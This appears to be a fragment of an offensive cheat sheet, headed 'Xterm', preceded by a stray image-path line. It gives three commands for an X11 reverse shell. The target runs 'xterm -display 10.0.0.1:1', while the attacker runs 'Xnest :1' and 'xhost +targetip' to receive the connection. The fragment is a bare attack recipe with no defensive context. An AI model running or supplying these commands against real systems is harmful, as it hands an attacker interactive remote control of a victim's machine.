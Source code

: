 # Xterm

```text
xterm -display 10.0.0.1:1 → host

Xnest :1 → attacker allow connection

xhost +targetip → attacker
```

